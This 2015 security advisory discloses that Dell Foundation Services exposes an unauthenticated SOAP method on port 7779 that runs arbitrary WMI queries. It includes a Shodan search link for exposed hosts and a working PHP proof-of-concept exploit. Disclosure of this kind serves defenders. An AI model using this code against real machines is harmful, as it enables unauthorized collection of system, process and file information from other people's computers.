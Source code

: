 ```yaml
---
layout: post
title: "Security Advisory: Dell Foundation Services Remote Information Disclosure (II)"
date: 2015-11-25
categories:
---
```


*By slipstream/RoL.*

# Overview

Dell Foundation Services (otherwise known by its internal name of "Tribbles") "provides a core set of foundational services facilitating customer serviceability, messaging and support functions".

# Issues

Dell Foundation Services starts an HTTPd that listens on port 7779. The previous service tag leak was fixed by removing the JSONP API.

However, the webservice in question is still available; it is now a SOAP service, and all methods of that webservice can be accessed, not just the ServiceTag method.

One of the methods accessible is `List<WmiManagementItem> GetWmiCollection(string wmiQuery)` - this returns the results of a given Windows Management Instrumentation (WMI) query, enabling access to information about hardware, installed software, running processes, installed services, accessible hard disks, filesystem metadata (filenames, file size, dates) and more.

[WMI](https://msdn.microsoft.com/en-us/library/windows/desktop/aa394582(v=vs.85).aspx) is "the infrastructure for management data and operations on Windows-based operating systems".

[Many potentially vulnerable hosts can be found via Shodan](https://www.shodan.io/search?query=port%3A7779+httpapi+404&language=None) and the issue can also be exploited over a LAN.

Quick PHP one-liner proof-of-concept:

````
php -r "function wmic($ip,$query) { var_dump(dowmic($ip,$query)); } function dowmic($ip,$query) { return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/'))); } function callApi($ip,$method,$params = array()) { return (new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/')))->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method)); } wmic('','');"
````

This can be expanded to:

````
<?php
function wmic($ip,$query) {
	var_dump(dowmic($ip,$query));
}

function dowmic($ip,$query) {
	return callApi($ip,'GetWmiCollection',array(new SoapVar($query,XSD_STRING,null,null,'wmiQuery','http://tempuri.org/')));
}

function callApi($ip,$method,$params = array()) {
	return (
		new SoapClient(null,array('location'=>'http://'.$ip.':7779/Dell%20Foundation%20Services/ISystemInfoCapabilitiesApi','uri'=>'http://tempuri.org/'))
	)->__soapCall($method,$params,array('soapaction'=>'http://tempuri.org/ISystemInfoCapabilitiesApi/'.$method));
}

wmic('','');
````

# Affected Versions

3.0.700.0.

# Solution

Uninstallation of Dell Foundation Services will prevent exploitation of the issue. The researchers cannot sanction any mitigations except to remove this software definitively from any affected devices.
